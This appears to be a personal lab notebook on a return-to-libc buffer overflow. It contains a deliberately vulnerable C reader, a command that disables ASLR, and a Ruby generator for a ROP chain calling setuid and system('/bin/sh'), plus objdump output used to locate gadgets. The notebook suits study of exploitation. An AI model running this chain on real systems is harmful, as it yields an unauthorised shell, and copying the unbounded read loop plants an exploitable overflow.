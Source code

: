#+TITLE: Return Libc buffer overflow
#+AUTHOR: Steven Quinito Masnada

* Principle
** Function call mechanism
*** x86_64
**** Call
     The caller save the next instruction to the stack and jump the
     address of the callee.
     #+BEGIN_SRC asm
       push 0x8($rip)          // return address
       jmp  0x74856abeffff0    // Jump to the function located at address 0x74856abeffff0
     #+END_SRC
**** Return
     #+BEGIN_SRC asm
       pop $rip
     #+END_SRC
** The stack
   For =X86_64=:
   | Argument N    | RBP + 8 + N * 8 | <- High address
   |---------------+-----------------|
   | Argument ...  |                 |
   |---------------+-----------------|
   | Argument 1    | RBP + 16        |
   |---------------+-----------------|
   | Return adress | RBP + 8         |
   |---------------+-----------------|
   | Old FP        | RBP             |
   |---------------+-----------------|
   | Local var 1   | RBP - 8         |
   | Local var 2   | RBP - 16        | <- Low address
* Preparation
** Desactivate ASLR
  #+begin_src sh :results output :exports both
    echo 0 > /proc/sys/kernel/randomize_va_space
  #+end_src
** The program
   #+begin_src c :results output :exports both
     #include <stdio.h>
     #include <stdlib.h>

     // 0x7ffff7e34560
     // 0x555555555030

     void read(FILE *fd){
         char buffer[8];
         int i = 0;

         while((buffer[i++] = fgetc(fd)) != EOF);
     }

     int main(){
         char filename[] = "badfile.txt";
         FILE *fd;

         fd = fopen(filename, "r");

         if(fd == NULL){
             perror("Error while opening the file");
             exit(EXIT_FAILURE);
         }

         read(fd);
    
         return 0;
     }

   #+end_src
** Generator
   #+BEGIN_SRC ruby :results output :exports both
     #!/usr/bin/env ruby
     def format(addr)
       return [addr].pack("Q*")
     end

     ret_addr_pos = 20
     a = (ret_addr_pos-3).times.map{'a'}.join
     junk = "B#{a}d!"

     # Compute and format the address of system libc function
     base = 0x7ffff7de0000
     system = base + 0x449c0
     exit = base + 0x39ea0
     shell = base + 0x181519
     setuid = base + 0xc7500
     gets = base + 0x71040
     gadget = base + 0xf94cb
     # gadget = base + 0xf4a13

     puts "system : 0x%x" % system
     puts "exit : 0x%x" % exit
     puts "shell : 0x%x" % shell
     puts "setuid : 0x%x" % setuid
     puts "gets : 0x%x" % gets
     puts "gadget : 0x%x" % gadget

     system = format(system)
     exit = format(exit)
     shell = format(shell)
     setuid = format(setuid)
     gets = format(gets)
     gadget = format(gadget)
     test = format(0x7fffffffefb5)

     # text = "#{junk}#{s_gets}#{s_setuid}#{s_system}#{s_exit}#{s_shell}"
     # text = "#{junk}#{system}#{exit}AAAA#{shell}"
     # text = "#{junk}#{gadget}#{system}#{shell}#{exit}"
     # text = "#{junk}#{gadget}#{gets}#{test}#{gadget}#{setuid}#{test}#{gadget}#{system}#{shell}#{exit}"

     text = junk
     text += gadget
     text += gets
     text += test
     text += gadget
     text += setuid
     text += test
     text += gadget
     text += system
     text += shell
     text += exit

     # text = junk
     # text += gadget
     # text += test
     # text += gets
     # text += gadget
     # text += test
     # text += setuid
     # text += gadget
     # text += shell
     # text += system
     # text += exit

     puts text

     File.write("badfile.txt", text)
   #+END_SRC

   #+RESULTS:
   : system : 0x7ffff7e249c0
   : exit : 0x7ffff7e19ea0
   : shell : 0x7ffff7f61519
   : setuid : 0x7ffff7ea7500
   : gets : 0x7ffff7e51040
   : gadget : 0x7ffff7ed94cb
   : Baaaaaaaaaaaaaaaaad!\0\0@\0\0\0\0\0\0\0u\0\0\0\0\0\0I\0\0\0\0\0\0

* Call the libc
** Find the base address:
   #+begin_src sh :results output :exports both
     cat /proc/PID/maps
   #+end_src

   #+RESULTS:
   : 7ffff7ddc000-7ffff7dfe000 r--p 00000000 fd:00 3019018                    /usr/lib/x86_64-linux-gnu/libc-2.28.so
   : 7ffff7dfe000-7ffff7f46000 r-xp 00022000 fd:00 3019018                    /usr/lib/x86_64-linux-gnu/libc-2.28.so 
   : 7ffff7f46000-7ffff7f92000 r--p 0016a000 fd:00 3019018                    /usr/lib/x86_64-linux-gnu/libc-2.28.so
   : 7ffff7f92000-7ffff7f93000 ---p 001b6000 fd:00 3019018                    /usr/lib/x86_64-linux-gnu/libc-2.28.so
   : 7ffff7f93000-7ffff7f97000 r--p 001b6000 fd:00 3019018                    /usr/lib/x86_64-linux-gnu/libc-2.28.so
   : 7ffff7f97000-7ffff7f99000 rw-p 001ba000 fd:00 3019018                    /usr/lib/x86_64-linux-gnu/libc-2.28.so
   : 7ffff7f99000-7ffff7f9d000 rw-p 00000000 00:00 0

** Find the offset of the system function:
   #+begin_src sh :results output :exports both
     readelf -a /usr/lib/x86_64-linux-gnu/libc.so.6 | grep system
   #+end_src

** Find offset of /bin/sh
   #+begin_src sh :results output :exports both
     strings -t x /lib/x86_64-linux-gnu/libc.so.6| grep /bin/sh
   #+end_src
** Find Gadget pop rdi ; ret
   #+begin_src sh :results output :exports both
     objdump -d /lib/x86_64-linux-gnu/libc.so.6 | grep -B5 call | grep -C5 rdi | grep pop | grep rdi 
   #+end_src

   #+RESULTS:
   :    c6970:	5f                   	pop    %rdi
   :    f94cc:	5f                   	pop    %rdi
   :   10af65:	5f                   	pop    %rdi
   :   11f093:	5f                   	pop    %rdi
   :   129240:	5f                   	pop    %rdi

   - +c6970+ \to this could actually do the trick, even with the syscall (vfork)
     #+begin_src sh :results output :exports both
       objdump -d /lib/x86_64-linux-gnu/libc.so.6 | grep -A 10 c6970
     #+end_src

     #+RESULTS:
     #+begin_example
     00000000000c6970 <__libc_vfork@@GLIBC_PRIVATE>:
        c6970:	5f                   	pop    %rdi
        c6971:	b8 3a 00 00 00       	mov    $0x3a,%eax
        c6976:	0f 05                	syscall 
        c6978:	57                   	push   %rdi
        c6979:	3d 01 f0 ff ff       	cmp    $0xfffff001,%eax
        c697e:	73 01                	jae    c6981 <__libc_vfork@@GLIBC_PRIVATE+0x11>
        c6980:	c3                   	retq   
        c6981:	48 8b 0d e8 44 0f 00 	mov    0xf44e8(%rip),%rcx        # 1bae70 <h_errlist@@GLIBC_2.2.5+0xdd0>
        c6988:	f7 d8                	neg    %eax
        c698a:	64 89 01             	mov    %eax,%fs:(%rcx)
        c698d:	48 83 c8 ff          	or     $0xffffffffffffffff,%rax
     #+end_example
   - f94cc
     #+begin_src sh :results output :exports both
       objdump -d /lib/x86_64-linux-gnu/libc.so.6 | grep -C 10 f94cc
     #+end_src

     #+RESULTS:
     #+begin_example
        f94b2:	4d 89 c8             	mov    %r9,%r8
        f94b5:	4c 8b 54 24 08       	mov    0x8(%rsp),%r10
        f94ba:	b8 38 00 00 00       	mov    $0x38,%eax
        f94bf:	0f 05                	syscall 
        f94c1:	48 85 c0             	test   %rax,%rax
        f94c4:	7c 13                	jl     f94d9 <__clone@@GLIBC_2.2.5+0x49>
        f94c6:	74 01                	je     f94c9 <__clone@@GLIBC_2.2.5+0x39>
        f94c8:	c3                   	retq   
        f94c9:	31 ed                	xor    %ebp,%ebp
        f94cb:	58                   	pop    %rax
        f94cc:	5f                   	pop    %rdi
        f94cd:	ff d0                	callq  *%rax
        f94cf:	48 89 c7             	mov    %rax,%rdi
        f94d2:	b8 3c 00 00 00       	mov    $0x3c,%eax
        f94d7:	0f 05                	syscall 
        f94d9:	48 8b 0d 90 19 0c 00 	mov    0xc1990(%rip),%rcx        # 1bae70 <h_errlist@@GLIBC_2.2.5+0xdd0>
        f94e0:	f7 d8                	neg    %eax
        f94e2:	64 89 01             	mov    %eax,%fs:(%rcx)
        f94e5:	48 83 c8 ff          	or     $0xffffffffffffffff,%rax
        f94e9:	c3                   	retq   
        f94ea:	66 0f 1f 44 00 00    	nopw   0x0(%rax,%rax,1)
     #+end_example
   - +10af65+
     #+begin_src sh :results output :exports both
       objdump -d /lib/x86_64-linux-gnu/libc.so.6 | grep -C10 10af65
     #+end_src

     #+RESULTS:
     #+begin_example
       10af3c:	44 89 e6             	mov    %r12d,%esi
       10af3f:	ff 74 24 48          	pushq  0x48(%rsp)
       10af43:	4c 8b 4c 24 10       	mov    0x10(%rsp),%r9
       10af48:	4c 8b 44 24 28       	mov    0x28(%rsp),%r8
       10af4d:	48 8b 4c 24 20       	mov    0x20(%rsp),%rcx
       10af52:	8b 54 24 48          	mov    0x48(%rsp),%edx
       10af56:	48 8b 7c 24 18       	mov    0x18(%rsp),%rdi
       10af5b:	e8 e0 39 02 00       	callq  12e940 <svc_run@@GLIBC_2.2.5+0x18b0>
       10af60:	89 44 24 4c          	mov    %eax,0x4c(%rsp)
       10af64:	5e                   	pop    %rsi
       10af65:	5f                   	pop    %rdi
       10af66:	85 c0                	test   %eax,%eax
       10af68:	0f 88 6d fe ff ff    	js     10addb <gethostbyaddr_r@@GLIBC_2.2.5+0x9b>
       10af6e:	48 8b 7c 24 48       	mov    0x48(%rsp),%rdi
       10af73:	e8 98 f4 00 00       	callq  11a410 <__resolv_context_put@@GLIBC_PRIVATE>
       10af78:	e9 d9 00 00 00       	jmpq   10b056 <gethostbyaddr_r@@GLIBC_2.2.5+0x316>
       10af7d:	0f 1f 00             	nopl   (%rax)
       10af80:	41 8d 45 02          	lea    0x2(%r13),%eax
       10af84:	48 8b 54 24 58       	mov    0x58(%rsp),%rdx
       10af89:	48 98                	cltq   
       10af8b:	83 7c 82 08 02       	cmpl   $0x2,0x8(%rdx,%rax,4)
     #+end_example
   - +11f093+
     #+begin_src sh :results output :exports both
       objdump -d /lib/x86_64-linux-gnu/libc.so.6 | grep -B15 11f090
     #+end_src

     #+RESULTS:
     #+begin_example
       11f054:	ba 02 00 00 00       	mov    $0x2,%edx
       11f059:	be a0 86 01 00       	mov    $0x186a0,%esi
       11f05e:	e8 8d 82 00 00       	callq  1272f0 <clnttcp_create@@GLIBC_2.2.5>
       11f063:	48 89 c5             	mov    %rax,%rbp
       11f066:	48 85 c0             	test   %rax,%rax
       11f069:	74 a8                	je     11f013 <pmap_getmaps@@GLIBC_2.2.5+0xe3>
       11f06b:	48 8b 40 08          	mov    0x8(%rax),%rax
       11f06f:	41 56                	push   %r14
       11f071:	be 04 00 00 00       	mov    $0x4,%esi
       11f076:	48 89 ef             	mov    %rbp,%rdi
       11f079:	41 55                	push   %r13
       11f07b:	4c 8d 05 be 00 00 00 	lea    0xbe(%rip),%r8        # 11f140 <xdr_pmaplist@@GLIBC_2.2.5>
       11f082:	31 c9                	xor    %ecx,%ecx
       11f084:	48 8d 15 e5 c8 00 00 	lea    0xc8e5(%rip),%rdx        # 12b970 <xdr_void@@GLIBC_2.2.5>
       11f08b:	4c 8d 4c 24 20       	lea    0x20(%rsp),%r9
       11f090:	ff 10                	callq  *(%rax)
     #+end_example
   - +129240+
     #+begin_src sh :results output :exports both
       objdump -d /lib/x86_64-linux-gnu/libc.so.6 | grep -C10 129240
     #+end_src

     #+RESULTS:
     #+begin_example
       129218:	68 90 01 00 00       	pushq  $0x190
       12921d:	4c 89 c1             	mov    %r8,%rcx
       129220:	be a0 86 01 00       	mov    $0x186a0,%esi
       129225:	45 31 c0             	xor    %r8d,%r8d
       129228:	68 90 01 00 00       	pushq  $0x190
       12922d:	ba 02 00 00 00       	mov    $0x2,%edx
       129232:	45 31 e4             	xor    %r12d,%r12d
       129235:	4c 8d 4c 24 3c       	lea    0x3c(%rsp),%r9
       12923a:	e8 41 f0 ff ff       	callq  128280 <clntudp_bufcreate@@GLIBC_2.2.5>
       12923f:	5e                   	pop    %rsi
       129240:	5f                   	pop    %rdi
       129241:	49 89 c7             	mov    %rax,%r15
       129244:	48 85 c0             	test   %rax,%rax
       129247:	0f 84 90 00 00 00    	je     1292dd <__libc_rpc_getport@@GLIBC_PRIVATE+0x11d>
       12924d:	e8 ee 02 00 00       	callq  129540 <__rpc_thread_createerr@@GLIBC_2.2.5>
       129252:	48 8d 4c 24 30       	lea    0x30(%rsp),%rcx
       129257:	be 03 00 00 00       	mov    $0x3,%esi
       12925c:	4c 89 ff             	mov    %r15,%rdi
       12925f:	48 89 44 24 18       	mov    %rax,0x18(%rsp)
       129264:	48 8b 44 24 08       	mov    0x8(%rsp),%rax
       129269:	48 8d 15 70 5e ff ff 	lea    -0xa190(%rip),%rdx        # 11f0e0 <xdr_pmap@@GLIBC_2.2.5>
     #+end_example

   #+begin_src sh :results output :exports both
     objdump -d /lib/x86_64-linux-gnu/libc.so.6 | grep -B10 ret | grep -C5 rdi | grep pop | grep rdi 
   #+end_src

   #+RESULTS:
   :    c6970:	5f                   	pop    %rdi
   :    f4a13:	5f                   	pop    %rdi
   :    f94cc:	5f                   	pop    %rdi

   - +f4a13+
     #+begin_src sh :results output :exports both
       objdump -d /lib/x86_64-linux-gnu/libc.so.6 | grep -C 10 f4a13
     #+end_src

     #+RESULTS:
     #+begin_example
        f49ed:	5d                   	pop    %rbp
        f49ee:	41 5c                	pop    %r12
        f49f0:	c3                   	retq   
        f49f1:	0f 1f 80 00 00 00 00 	nopl   0x0(%rax)
        f49f8:	ff 74 24 28          	pushq  0x28(%rsp)
        f49fc:	41 b8 21 00 00 00    	mov    $0x21,%r8d
        f4a02:	48 8d 0d b7 99 0c 00 	lea    0xc99b7(%rip),%rcx        # 1be3c0 <__curbrk@@GLIBC_2.2.5+0x320>
        f4a09:	ff 74 24 28          	pushq  0x28(%rsp)
        f4a0d:	e8 9e 00 00 00       	callq  f4ab0 <qfcvt_r@@GLIBC_2.2.5>
        f4a12:	5e                   	pop    %rsi
        f4a13:	5f                   	pop    %rdi
        f4a14:	83 f8 ff             	cmp    $0xffffffff,%eax
        f4a17:	74 0f                	je     f4a28 <qfcvt@@GLIBC_2.2.5+0x78>
        f4a19:	5b                   	pop    %rbx
        f4a1a:	48 8d 05 9f 99 0c 00 	lea    0xc999f(%rip),%rax        # 1be3c0 <__curbrk@@GLIBC_2.2.5+0x320>
        f4a21:	5d                   	pop    %rbp
        f4a22:	41 5c                	pop    %r12
        f4a24:	c3                   	retq   
        f4a25:	0f 1f 00             	nopl   (%rax)
        f4a28:	bf 65 13 00 00       	mov    $0x1365,%edi
        f4a2d:	e8 d6 d8 f2 ff       	callq  22308 <malloc@plt>
     #+end_example

   #+begin_src sh :results output :exports both
     strings -t x /lib/x86_64-linux-gnu/libc.so.6 | grep "/bin/sh"
   #+end_src

   #+RESULTS:
   :  181519 /bin/sh

   #+begin_src sh :results output :exports both
     objdump -d /lib/x86_64-linux-gnu/libc.so.6 | grep -B5 execve | grep -C5 181519
   #+end_src

   #+RESULTS:
   #+begin_example
   --
      c70c2:	49 c7 45 10 00 00 00 	movq   $0x0,0x10(%r13)
      c70c9:	00 
      c70ca:	4c 89 e2             	mov    %r12,%rdx
      c70cd:	4c 89 ee             	mov    %r13,%rsi
      c70d0:	48 8d 3d 42 a4 0b 00 	lea    0xba442(%rip),%rdi        # 181519 <_libc_intl_domainname@@GLIBC_2.2.5+0x15f>
      c70d7:	e8 24 f9 ff ff       	callq  c6a00 <execve@@GLIBC_2.2.5>
   --
      c7182:	48 85 c0             	test   %rax,%rax
      c7185:	74 59                	je     c71e0 <execlp@@GLIBC_2.2.5+0x330>
      c7187:	4c 89 ea             	mov    %r13,%rdx
   --
      c7338:	e8 c3 f6 ff ff       	callq  c6a00 <execve@@GLIBC_2.2.5>
   --
      e5451:	e8 ea 56 00 00       	callq  eab40 <__close@@GLIBC_2.2.5>
      e5456:	48 8b 05 53 5a 0d 00 	mov    0xd5a53(%rip),%rax        # 1baeb0 <__environ@@GLIBC_2.2.5-0x31d0>
      e545d:	48 8d 74 24 60       	lea    0x60(%rsp),%rsi
      e5462:	48 8d 3d b0 c0 09 00 	lea    0x9c0b0(%rip),%rdi        # 181519 <_libc_intl_domainname@@GLIBC_2.2.5+0x15f>
      e5469:	48 8b 10             	mov    (%rax),%rdx
      e546c:	e8 8f 15 fe ff       	callq  c6a00 <execve@@GLIBC_2.2.5>
   --
      e965c:	01 00 00 00 
      e9660:	e9 0d fc ff ff       	jmpq   e9272 <posix_spawnp@@GLIBC_2.15+0x3d2>
   #+end_example

   #+begin_src sh :results output :exports both
     objdump -d /lib/x86_64-linux-gnu/libc.so.6 | grep -B5 setuid
   #+end_src

   #+RESULTS:
   #+begin_example
      c74f0:	c3                   	retq   
      c74f1:	66 2e 0f 1f 84 00 00 	nopw   %cs:0x0(%rax,%rax,1)
      c74f8:	00 00 00 
      c74fb:	0f 1f 44 00 00       	nopl   0x0(%rax,%rax,1)

   00000000000c7500 <setuid@@GLIBC_2.2.5>:
   --
      c750b:	00 00 
      c750d:	48 89 44 24 28       	mov    %rax,0x28(%rsp)
      c7512:	31 c0                	xor    %eax,%eax
      c7514:	8b 05 c6 91 0f 00    	mov    0xf91c6(%rip),%eax        # 1c06e0 <argp_program_version_hook@@GLIBC_2.2.5+0x1c0>
      c751a:	85 c0                	test   %eax,%eax
      c751c:	75 2a                	jne    c7548 <setuid@@GLIBC_2.2.5+0x48>
      c751e:	b8 69 00 00 00       	mov    $0x69,%eax
      c7523:	0f 05                	syscall 
      c7525:	48 3d 00 f0 ff ff    	cmp    $0xfffffffffffff000,%rax
      c752b:	77 4b                	ja     c7578 <setuid@@GLIBC_2.2.5+0x78>
      c752d:	48 8b 4c 24 28       	mov    0x28(%rsp),%rcx
      c7532:	64 48 33 0c 25 28 00 	xor    %fs:0x28,%rcx
      c7539:	00 00 
      c753b:	75 4e                	jne    c758b <setuid@@GLIBC_2.2.5+0x8b>
   --
      c7559:	48 8b 05 70 91 0f 00 	mov    0xf9170(%rip),%rax        # 1c06d0 <argp_program_version_hook@@GLIBC_2.2.5+0x1b0>
      c7560:	48 c1 c8 11          	ror    $0x11,%rax
      c7564:	64 48 33 04 25 30 00 	xor    %fs:0x30,%rax
      c756b:	00 00 
      c756d:	ff d0                	callq  *%rax
      c756f:	eb bc                	jmp    c752d <setuid@@GLIBC_2.2.5+0x2d>
      c7571:	0f 1f 80 00 00 00 00 	nopl   0x0(%rax)
      c7578:	48 8b 15 f1 38 0f 00 	mov    0xf38f1(%rip),%rdx        # 1bae70 <h_errlist@@GLIBC_2.2.5+0xdd0>
      c757f:	f7 d8                	neg    %eax
      c7581:	64 89 02             	mov    %eax,%fs:(%rdx)
      c7584:	b8 ff ff ff ff       	mov    $0xffffffff,%eax
      c7589:	eb a2                	jmp    c752d <setuid@@GLIBC_2.2.5+0x2d>
   #+end_example
